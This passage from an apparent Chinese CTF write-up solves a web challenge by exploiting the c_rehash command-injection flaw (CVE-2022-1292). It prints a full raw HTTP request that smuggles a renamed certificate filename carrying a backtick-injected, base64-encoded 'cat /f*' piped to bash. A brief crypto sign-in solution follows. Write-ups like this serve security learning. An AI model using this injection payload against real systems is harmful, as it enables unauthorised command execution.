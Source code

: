 ### online_crt

c_rehash 存在漏洞 https://www.secrss.com/articles/42602 CVE-2022-1292  
先通过 /getcrt 获取文件名  
再通过 /proxy 访问 go 服务更改文件名为命令  
最后通过 /createlink 调用 c_rehash 执行命令  

```
GET /proxy HTTP/1.1
Host: xxx:8888
Content-Length: 316
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://xxx:8888
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://xxx:8888/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: __jsluid_h=47deb9dd4ec6dca0063283f9453e7643
Connection: close

uri=/admin/%25%37%32%25%36%35%25%36%65%25%36%31%25%36%64%25%36%35%3foldname%3d24950c68-7018-4cd7-97c9-239cf4ecd3a7.crt%26newname%3d`touch%2b\`echo%2bY2F0IC9mKgo=|base64%2b-d|bash\``.crt HTTP/1.1
Host: admin
User-Agent: admin
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

## Crypto

### 电台签到

根据微信里公众号提示，找到密码本，进行模10运算，得到：

![签到](https://cdn.jsdelivr.net/gh/Harry0597/Imag@master/uPic/image-20220529190529555.png)

也根据微信里提示，先用BurpSuit抓包发s,然后修改再发上面的数字，即：

- `GET /send?msg=sJ HTTP/1.1`

- `GET /send?msg=2975115315066710252297245914J HTTP/1.1`

依次发包，获得flag。

### 基于挑战码的双向认证
